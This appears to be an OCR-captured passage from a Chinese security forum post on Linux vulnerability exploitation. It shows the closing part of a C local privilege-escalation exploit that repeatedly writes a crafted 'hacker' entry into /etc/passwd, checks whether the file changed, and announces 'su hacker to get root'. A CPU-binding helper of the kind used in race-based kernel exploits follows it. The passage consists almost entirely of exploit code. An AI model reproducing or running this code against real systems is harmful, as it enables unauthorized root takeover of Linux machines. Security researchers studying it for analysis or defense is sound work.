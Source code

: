```
        for (size_t i = 0; i < nr_files; i++)
            {
                if(write(fds[i],hacker_buf,hacker_len)>0){
                    logw(" hacker /etc/passwd successful");
                    break;
                }                  
            }
        // debug("debug");
        stat("/etc/passwd",&status);
        logu("passwd_size -> %d",status.st_size);
        if(status.st_size==passwd_size)continue;
        logd("success!!! su hacker to get root");
        exit(0);
    }
            


    RED;puts("[*]failed");CLOSE;
    return 0;
}

void bind_cpu(int core)
{
    cpu_set_t cpu_set;

    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);
    BLUE;printf("[*] bind_cpu(%d)",core);CLOSE;
}
```

[[培训] 科锐逆向工程师培训第 53 期 2025 年 7 月 8 日开班！](https://bbs.kanxue.com/thread-51839.htm)

[#漏洞分析](forum-150-1-153.htm) [#漏洞利用](forum-150-1-154.htm) [#Linux](forum-150-1-161.htm)